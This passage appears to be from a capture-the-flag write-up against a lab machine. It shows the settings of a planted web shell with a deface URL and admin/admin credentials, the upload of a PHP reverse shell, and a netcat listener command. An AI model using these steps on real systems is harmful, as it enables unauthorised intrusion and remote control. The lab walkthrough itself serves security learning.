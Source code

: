 ```
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
```

Trying this, we log in successfully.

![](images/shell.PNG)

The shell has a lot of options to sift through but the first thing that stands out is the capability to upload files through the shell interface. It also looks like this shell is running as user `webadmin`.

Command execution is limited through this shell, so let's try to upload a reverse shell. We'll use [this one](https://github.com/pentestmonkey/php-reverse-shell) from pentestmonkey.

First, let's start our listener for our reverse shell.

```
$ nc -lvnp 4444
```

After successfully  uploading the shell, we can navigate to the page `http://10.10.10.181/php-reverse-shell.php`, which connects to our listener, providing us with a shell!

After having a look around, we find a text document named `note.txt` within the home directory of the user `webadmin`.

```
$ cd /home/webadmin
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
